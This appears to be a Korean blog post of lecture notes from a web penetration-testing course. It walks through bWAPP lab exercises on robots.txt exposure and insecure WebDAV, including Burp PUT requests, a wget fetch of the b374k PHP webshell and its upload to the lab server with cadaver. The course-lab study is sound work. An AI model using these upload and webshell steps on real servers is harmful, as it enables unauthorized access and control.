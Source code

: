 ```yaml
---
layout: post
title: "비박스를 활용한 웹 모의해킹 완벽 실습 - 보안 설정 오류(구글 해킹, Robots.txt, WebDav)"
excerpt_separator:  <!--more-->
categories:
 - WebHack
tags:
  - 웹 해킹
  - 인프런
  - Part5 A5
  - 보안 설정 오류
---
```


# 출처

## 인프런, 비박스를 활용한 웹 모의해킹 완벽 실습 17강 <https://www.inflearn.com/course/%EB%B9%84%EB%B0%95%EC%8A%A4-%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9-%EC%8B%A4%EC%8A%B5/>

---

<!--more-->

## 보안 설정 오류

### Exploit-DB GHDB

* 구글 검색으로 취약점을 찾을 수 있는 데이터 베이스
* [Google Hacking Database](https://www.exploit-db.com/google-hacking-database/)
* Robots.txt: 구글 검색을 위한 파일이며 구글의 검색 허용 범위를 지정
* 관리자 페이지처럼 중요한 정보를 노출시킬 수도 있음

## Robots 파일 내 중요한 정보 노출

* 웹사이트 운영 시 원하지 않는 중요한 컨텐츠가 구글 등 각종 검색엔진에 의해 노출
* 검색엔진 로봇이 사이트에 접근하는 것을 제한하거나 허용하기 위해 웹사이트의 최상위 디렉토리에 특정한 설정 파일을 만듦
* 어떠한 컨텐츠에 대해서도 각종 봇의 접근이나 색인(index) 거부

|형식|설명|
|:----:|:----:|
|User-agent|검색 로봇을 설정하는 항목으로 *는 모든 로봇을 의미|
|Allow:/폴더명/|해당 폴더에 대한 접근을 허용|
|Disallow:/폴더명/|해당 폴더에 대한 접근을 거부|

---

## Robots File

![image](https://user-images.githubusercontent.com/28076542/52756444-b4c17f00-3044-11e9-954b-97bf7a25f648.png)

* URL: `192.168.190.143/bWAPP/robots.txt`에 들어가면 robots.txt 내용 확인 가능

### 192.168.190.143/bWAPP/robots.txt

```bash
User-agent: GoodBot
Disallow:

User-agent: BadBot
Disallow: /

User-agent: *
Disallow: /admin/
Disallow: /documents/
Disallow: /images/
Disallow: /passwords/
```

* URL 뒤에 각 항목을 넣어 들어가보면 민감한 자료가 존재

---

## Insecure WebDAV Configuration

![image](https://user-images.githubusercontent.com/28076542/52758880-4fbe5700-304d-11e9-9b38-6ed3e8b6b9e9.png)

* 이런게 있는데 어차피 요즘은 잘 안 쓴다고 함
* `put` 메소드가 제일 위험 --> 업로드 취약점

### URL로 접속한 WebDAV 창 확인

![image](https://user-images.githubusercontent.com/28076542/52759363-ed665600-304e-11e9-8885-15c4eff3af11.png)

### Bee-Box에서 /etc/apache2/httpd.conf

```bash
ExtendedStatus On
<Location /server-status>
 SetHandler server-status
 Order deny,allow
 Allow from all
</Location>

# Allows WebDAV, not secure!!!
Alias /webdav /var/www/bWAPP/documents
<Location /webdav>
 DAV On
</Location>
```

* 주석에서도 안전하지 않다고 써 있음

### WebDAV 동작 확인 방법

* 해당 사이트에 접속 후 BurpSuite 실행
* OPTIONS를 넣고 기타 항목은 지우기
* HTTP history에서 Response 확인

### BurpSuite Raw에 넣은 메시지

```bash
OPTIONS /webdav/ HTTP/1.1
Host: 192.168.190.143
```

### BurpSuite로 WebDAV 동작확인

![image](https://user-images.githubusercontent.com/28076542/52759410-1686e680-304f-11e9-84d0-86b5a4585104.png)

![image](https://user-images.githubusercontent.com/28076542/52759693-27842780-3050-11e9-8fce-56948af4d80b.png)

* **Allow** 항목에 옵션들이 나타남

### BurpSuite에 PUT 메시지 삽입

```bash
PUT /webdav/test.txt HTTP/1.1

Host: 192.168.190.143

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Cookie: security_level=0; PHPSESSID=a44428958e332ff8c9355498af8ef26c

Connection: close

Upgrade-Insecure-Requests: 1



test1234
```

### WebDAV PUT 메시지 결과

![image](https://user-images.githubusercontent.com/28076542/52759807-9d888e80-3050-11e9-8d67-8f7feb77e7dc.png)

![image](https://user-images.githubusercontent.com/28076542/52760002-4800b180-3051-11e9-914d-4a9a0a0654cb.png)

---

## b374k

* PHP 환경에서 사용할 수 있는 웹쉘
* 웹쉘: 웹에서 사용할 수 있는 쉘 ㅎㅎ
* [b374k](https://github.com/tennc/webshell/tree/master/php/b374k)
* b374k-3.2.2.php를 사용할 것

### 칼리리눅스 터미널에 b374k 설치

```bash
root@ming:~# cd ~
root@ming:~# wget https://raw.githubusercontent.com/tennc/webshell/master/php/b374k/b374k-3.2.2.php
--2019-02-14 12:17:45--  https://raw.githubusercontent.com/tennc/webshell/master/php/b374k/b374k-3.2.2.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.72.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.72.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 84267 (82K) [text/plain]
Saving to: ‘b374k-3.2.2.php’

b374k-3.2.2.php       100%[=========================>]  82.29K  --.-KB/s    in 0.08s   

2019-02-14 12:17:45 (1.04 MB/s) - ‘b374k-3.2.2.php’ saved [222039]
```

### cadaver 실행

* cadaver: 칼리리눅스에서 기본으로 지원하는 툴로 여러가지 http 메소드를 사용할 수 있게 제공

```bash
root@ming:~# cadaver http://192.168.190.143/webdav/
dav:/webdav/> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> put b374k-3.2.2.php 
Uploading b374k-3.2.2.php to `/webdav/b374k-3.2.2.php':
Progress: [=============================>] 100.0% of 222039 bytes succeeded.
dav:/webdav/> 
```

### WebDAV에 업로드 된 b374k

![image](https://user-images.githubusercontent.com/28076542/52760450-ee00eb80-3052-11e9-9478-fc07de796542.png)

* b374k-3.2.2.php를 클릭하고 비밀번호는 **b374k**

### b374k 실행 화면

![image](https://user-images.githubusercontent.com/28076542/52760511-1d175d00-3053-11e9-9078-f59fb8908b30.png)